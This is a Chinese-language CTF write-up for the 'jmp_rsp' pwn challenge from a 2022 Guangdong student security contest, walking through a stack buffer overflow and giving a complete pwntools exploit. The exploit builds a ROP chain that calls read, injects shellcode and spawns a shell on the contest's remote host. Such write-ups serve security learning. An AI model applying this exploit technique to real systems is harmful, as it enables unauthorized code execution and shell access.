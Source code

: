 ```yaml
---
title: 2022年第二届广东大学生网络安全攻防大赛初赛
date: 2022-07-08 13:36:27
permalink: /pages/70a655/
categories:
  - 网络安全
  - pwn
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# 2022年第二届广东大学生网络安全攻防大赛初赛

## 题目：jmp_rsp

### 查看保护

```
[*] '/home/root/Desktop/pwn/jmp_rsp'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

> 64位小端序，代码段可写可读可执行

### 主函数分析：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v3; // cl
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  printf((unsigned int)"this is a classic pwn", (_DWORD)argv, (_DWORD)envp, v3);
  read(0, buf, 0x100uLL);
  return 0;
}
```

### 解题思路分析:

> 这里的read是往buf里写入数据，但他这个buf只有0x80的大小，read却可以写入0x100的大小，所以此处是存在明显溢出的。
>
> 又因为代码段可读可写可执行，那么就在程序里找一个代码段写入，从而执行shellcode获得shell。
>
> 要想写入代码段就得用到read方法来进行写入，那么在本题把返回地址劫持到read函数即可。

![image-20220708132959435](https://cdn.jsdelivr.net/gh/Riam-jimmy/picture/img/image-20220708132959435.png)

> 这里可看出buf的偏移为0x80+8即136

### exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']
py=136
# io=process('./jmp_rsp')
io=remote('47.106.122.102',42102)
elf=ELF('./jmp_rsp')
pop_rdi_addr=0x00400696
pop_rsi_addr=0x0410173 
pop_rax_addr=0x415174
pop_rdx_addr=0x449395
main_addr=0x400B5D
data_addr=0x6bb2e0 
read_addr=0x400B87
shellcode=asm(shellcraft.sh())#用python生成一个调用shell的2进制代码
payload=flat(['a'*py,pop_rdi_addr,0,pop_rsi_addr,data_addr,pop_rdx_addr,1000,elf.symbols['read'],data_addr])#因为要往代码段里写入可执行代码，所以要用read方法往里面写入代码，此处read（0，）
io.send(payload)
io.send(flat([shellcode]))
io.interactive()
```

